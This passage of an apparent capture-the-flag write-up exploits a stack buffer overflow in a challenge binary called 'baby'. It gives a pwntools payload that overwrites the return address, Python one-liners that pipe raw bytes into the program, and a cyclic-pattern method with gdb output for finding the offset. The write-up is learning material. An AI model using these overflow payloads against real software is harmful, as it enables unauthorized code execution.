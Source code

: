 ```python
payload = b"A" * 22 + p32(0x08049205)

# sending the payload
p.sendline(payload)

# opening an interactive shell to interact with the remote program
p.interactive()
```  

## Solving locally with Python3
So this payload was causing `baby` to crash

```bash
0773290cf797:~$ python -c 'print(b"A" * 22' + b"\x05\x92\x04\x08")' | ./baby
``` 

And this one not
```bash
0773290cf797:~$ (python -c 'import sys;sys.stdout.buffer.write(b"a"*22+b"\x05\x92\x04\x08")' && cat) | ./baby
```  
And that's because `buffer.write()` ensures that the payload is written as **raw** bytes, so **without** unintended encoding or formatting issues ... which means no extra added octets => we send what we see, and it works :)  

As you maybe have seen, you can use `(b"a"*22+b"\x05\x92\x04\x08")' && cat)` or `(b"a"*22+b"\x05\x92\x04\x08")'; cat)`.

## Another way to find the offset (locally)  

Let's use pwntools to create a payload

```bash
0773290cf797:~$ python -c 'from pwn import *; print(cyclic(200).decode())'
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```  
*I don't have to specify python3 here as python is what's associated to python3*  

Let's crash the program

```bash
Fill this : New is not always ...?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab ? The good one is the following one :
New is not always better ! But sometimes, it is ;)
Program received signal SIGSEGV, Segmentation fault.
0x61676161 in ?? ()
(gdb)
```  
